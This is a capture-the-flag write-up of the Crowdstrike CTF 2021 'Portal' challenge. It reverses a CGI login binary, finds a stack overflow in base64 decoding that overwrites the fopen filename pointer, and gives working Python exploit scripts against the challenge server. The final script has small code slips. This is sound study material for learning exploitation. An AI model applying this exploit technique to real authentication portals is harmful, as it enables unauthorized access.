 ```yaml
---
layout: post
title: Crowdstrike CTF 2021 - Portal
author: hugsy
tags: [Protective Penguin,pwn,re,elf64,]
date: 2021-01-29 19:43
---
```


* Competition: [Crowdstrike CTF](https://adversary.zone/challenges)
* Challenge Name: Portal
* Points: 1 pts
* Description:
> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

The target for this challenge is located at https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi. By opening the Qemu image we can get retrieve the ELF64 file: `cgi-bin/portal.cgi`. That "portal" is fairly basic, only asking for credentials.
<!--more-->

# Reversing the binary

The binary was quickly identified:



```bash
$ file cgi-bin/portal.cgi
cgi-bin/portal.cgi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aead4fc5b1de633c95bfc8076a8338c9f64c3125, for GNU/Linux 3.2.0, stripped
$ checksec cgi-bin/portal.cgi
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

First, we determined the logic of the binary: it is a ELF64 CGI that is spawned via `python3 -m http.server --cgi`. This has several implications: CGIs are forked and execv-ed so this rules out any kind of stack canary bruteforce (if any canary attack was needed), and also relying on static libc addresses. But the binary base itself will be static.

Moving on to reversing: the `main` function quickly shows that the binary gets the `user` and `pass` from the input formatted in JSON. Also it shows that if the `auth` function is successful (i.e. returns 0), the flag is simply given to us:

![img](https://i.imgur.com/XBOlhQe.png)

Here is the core of the `auth` function
![img](https://i.imgur.com/tjyzEAQ.png)

Its logic is:

1. Read HTTP POST `user` and `pass` as `application/json`
2. Both parameters must be base64 encoded
3. Read expected string from "creds.txt".
4. Do `strcmp("given:credz","fromfile:credz")`
5. If returns 0, it just dumps the flag

After spending some time thinking of using a timing attack for exploitation, we re-read the binary disassembly to spot a stack overflow when the `auth` uses `__b64_pton` on a static stack buffer when extracting the credentials. We fully control the content being extracted. So here we go!

# Exploitation

Trigger the stack overflow is not hard, only providing an input big enough would suffice. For example this code:

```python
s = requests.Session()
u = b64(b"A"*372)
r = s.post("http://localhost:8000/cgi-bin/portal.cgi", json={"user": u, "pass": u})
print(r.text)
s.close()
```

would corrupt the stack, but also overwrite the canary triggering `__stack_chk_fail` and we don't like that much.
But looking closely at the stack layout, we realized something:

```
                     ^
|            |       |
--------------       |
|   pc       |       |
--------------       |
|  sfp       |       |
--------------       |
| canary     |       |
--------------       |
|  fname     |       |
--------------       |
|            |       |  stack direction
|            |       |
| controlled |       |
| buffer     |       |
|            |       |
|            |       |
```

We can control the value being passed to `fopen`! So we can use that argument to point to an address that will be `fopen` for comparison. By default, it obviously points to `creds.txt` (i.e. 0x402008). But if we could point it to a file we know that may contain `:` character, then we have all we need to pass the call to `strcmp`.

And one case struck out
```bash
$ strings cgi-bin/portal.cgi | rg /
/lib64/ld-linux-x86-64.so.2
```

Not quite sure if it was the intended solution, but it worked: we grepped`/lib64/ld-linux-x86-64.so.2` looking for `:` and we get some interesting stuff:

```bash
$ strings /lib64/ld-linux-x86-64.so.2 | rg ':'
[...]
FATAL: kernel too old
Unused direct dependencies:
        Version information:
        %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: %s%s%s
relocation processing: %s%s
calling init: %s
calling preinit: %s
[...]
```

We are free to pick any: so I picked `b"\tVersion information:"`. All is needed now is build the parameter with an `user` having the base64-encoded value of `b"\tVersion information"`, and `pass` with `\0` is enough.

```python
import os, sys, requests, time
from base64 import b64encode as b64
from pwn import *

TARGET="https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi"

def pwn():
    user_raw = b"\tVersion information"
    user = b64(user_raw)
    pwd_raw = b"\0"*(259-len(u_r))
    pwd = b64(pwd_raw + p64(0x4002a8) + b"A"*8) # 0x4002a8 is the address of /lib64/ld-linux-x86-64.so.2 in portal.cgi

    r = request.post(TARGET, json={"user": user, "pass": pwd})
    if len(r.text):
        print(r.text)
    return

if __name__ == "__main__":
    pwn()
```

And we get the flag printed out after a bunch of junk, showing `CS{w3b_vPn_h4xx}`.



